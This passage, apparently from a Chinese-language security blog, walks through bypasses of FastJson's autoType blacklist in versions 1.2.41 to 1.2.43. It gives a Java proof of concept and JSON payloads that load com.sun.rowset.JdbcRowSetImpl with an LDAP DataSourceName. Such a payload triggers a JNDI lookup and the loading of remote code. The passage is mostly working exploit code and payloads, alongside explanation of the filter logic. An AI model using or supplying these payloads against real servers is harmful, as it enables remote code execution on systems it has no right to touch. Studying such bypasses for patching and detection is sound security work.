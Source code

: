 ```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个 Class 类，值为恶意类
        //用之前 payload 从缓存中继续加载
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

//        String s="{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":false}}";
        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

## FastJson1.2.42 绕过：

1.2.42 相较于之前的版本，关键是在`ParserConfig.java`中修改了 1.2.41 前的代码

*   对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```plain
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

## FastJson1.4.43 绕过：

1.2.43 版本修改了`checkAutoType()`的部分代码，对于 LL 等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```plain
{"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

[![](assets/1701612260-f9a825ae2fde8ad08979184f7e13b35b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230552-6a7b137e-296a-1.png)

看到报错提示，期待出现\[，但是出现了两个逗号，所以我们在后面再加一个\[：

[![](assets/1701612260-f46a174b930e6ee20750f2026652b813.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230558-6e4bfa86-296a-1.png)

然后我们再按他说的在后面再加一个{：

[![](assets/1701612260-63972b7bc75c67742dc7b5101c3b58a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230604-71713f28-296a-1.png)
